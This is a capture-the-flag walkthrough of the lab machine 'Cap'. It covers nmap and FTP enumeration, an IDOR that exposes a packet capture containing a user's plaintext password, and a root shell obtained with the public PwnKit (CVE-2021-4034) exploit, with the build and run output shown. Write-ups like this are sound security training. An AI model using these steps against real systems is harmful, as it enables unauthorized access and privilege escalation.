

## Nmap Scan

```jsx
└─$ nmap -p $(cat ports.txt) -sVT -O --min-rate=2000 10.10.10.245   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 00:42 EDT
Nmap scan report for 10.10.10.245
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds

```

### Enumerating vsftpd (Port 21)

```jsx
msf6 auxiliary(scanner/ftp/anonymous) > exploit
[*] 10.10.10.245:21       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```jsx
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:syp): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
```

Anonymous FTP login failed

Searching for `vstfpd 3.0.3 exploits`   give us only a DOS exploit, which is not useful in our case

### Enumerating Gunicorn Website (Port 80)

```jsx
└─$ whatweb 10.10.10.245
[http://10.10.10.245](http://10.10.10.245/) [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[gunicorn], IP[10.10.10.245], JQuery[2.2.4], Modernizr[2.8.3.min], Script, Title[Security Dashboard], X-UA-Compatible[ie=edge]
```



## IDOR Vulnerability

Entered `/data/0` and got a new pcap file `0.pcap`


Analyzing the pcap in Wireshark:-


we got a confirmed user `nathan` 


Bingo, got the password for `nathan`

`nathan:Buck3tH4TF0RM3!`

Using SSH to login to the machine as `nathan` with the above creds:-

```jsx
To check for new updates run: sudo apt update
Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

## Privilege Escalation

`sudo -l` says cap cannot run any sudo commands on Cap.

```jsx
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
```

Imported and run [`linpeas.sh`](http://linpeas.sh) on the target machine

Discovered this misconfiguration


### CVE-2021-4034

[https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)

A local privilege escalation in polkit’s pkexec allows for privesc on all versions of polkit below version 0.113

Copied the exploit POC repo to the target machine

```jsx
nathan@cap:/tmp/tmp2$ cd CVE-2021-4034/
nathan@cap:/tmp/tmp2/CVE-2021-4034$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nathan@cap:/tmp/tmp2/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nathan@cap:/tmp/tmp2/CVE-2021-4034$ ./cve-2021-4034
# whoami
root
# 
```

`pwned`
